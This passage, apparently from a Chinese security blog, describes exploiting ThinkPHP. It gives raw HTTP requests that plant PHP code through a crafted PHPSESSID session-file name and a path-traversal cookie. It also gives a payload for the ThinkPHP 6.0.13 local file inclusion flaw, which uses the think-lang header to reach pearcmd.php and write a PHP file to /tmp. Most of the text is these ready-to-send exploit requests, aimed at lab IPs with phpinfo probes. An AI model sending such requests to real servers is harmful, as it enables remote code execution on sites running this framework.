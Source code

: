     
    
    GET /?a=a&b=12<?php+phpinfo();+?> HTTP/1.1  
    Host: 192.168.66.132:8001  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Connection: close  
    Cookie: PHPSESSID=1234567890123456789012345678.php;  
    Upgrade-Insecure-Requests: 1  
      
    

![]()

1234567890123456789012345678.php

    
    
    http://192.168.66.132:8001/runtime/session/sess_1234567890123456789012345678.php

  

![]()

访问没成功，emmm

方法二

    
    
    GET /?a=a&b=12<?php+phpinfo();+?> HTTP/1.1  
    Host: 192.168.66.132:8001  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Connection: close  
    Cookie: PHPSESSID=/../../../public/aaaaaaaaaaa.php;  
    Upgrade-Insecure-Requests: 1  
      
    

![]()

![]()

## TP - 6.0.13-Pearcmd x EXP

ThinkPHP是一个在中国使用较多的PHP框架。在其6.0.13版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用`lang`参数来包含任意PHP文件。

虽然只能包含本地PHP文件，但在开启了`register_argc_argv`且安装了pcel/pear的环境下，可以包含`/usr/local/lib/php/pearcmd.php`并写入任意文件。

Payload:

    
    
    GET /public/index.php?+config-create+/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1  
    Host: 192.168.36.128  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    think-lang:../../../../../../../../usr/local/lib/php/pearcmd  
    Cookie: think_lang=zh-cn  
    Connection: close
